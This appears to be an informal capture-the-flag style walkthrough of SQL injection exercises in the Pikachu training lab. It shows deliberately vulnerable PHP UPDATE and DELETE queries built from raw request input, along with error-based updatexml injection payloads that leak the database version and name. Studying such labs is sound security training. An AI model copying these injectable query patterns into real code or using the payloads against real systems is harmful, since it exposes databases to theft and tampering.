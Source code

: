 if(isset($_POST['submit'])){
     if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
// $getdata=escape($link, $_POST);

         //Unescaped, form injection, sql operation type is update
         $getdata=$_POST;
         $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email ='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
         $result=execute($link, $query);
         if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
             header("location:sqli_mem.php");
         } else {
             $html1.='Modification failed, please try again';

         }
     }
}
exploit

Version 1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <Note!!! Here is your username>;#

For example mine: 1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#





The rest is a little bit behind, I'm tired

"delete" injection
Server-side core code

// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
// Did not process the incoming id, resulting in DEL injection
if(array_key_exists('id', $_GET)){
     $query="delete from message where id={$_GET['id']}";
     $result=execute($link, $query);
     if(mysqli_affected_rows($link)==1){
         header("location:sqli_del.php");
     }else{
         $html.="<p style='color: red'>Delete failed, check if the database is down</p>";
     }
}
exploit

Capture packet GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1

Parameter id can try sql error injection to construct payload

1 or updatexml(1,concat(0x7e,database()),0)

Convert the replacement ID through URL conversion encoding that comes with Burp Suite





Slightly behind
